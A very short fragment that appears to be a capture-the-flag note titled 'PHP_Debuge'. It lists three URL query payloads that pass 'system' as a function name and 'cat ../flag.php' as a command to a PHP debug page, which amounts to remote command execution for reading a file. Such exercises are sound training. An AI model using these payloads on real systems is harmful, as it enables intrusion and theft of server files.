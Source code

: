 # PHP_Debuge
tsutsu=system&e=cat%20../flag.php&o=25
tsutsu=system&e=cat%20../flag.php&o=26
tsutsu=system&e=cat%20../flag.php&o=27
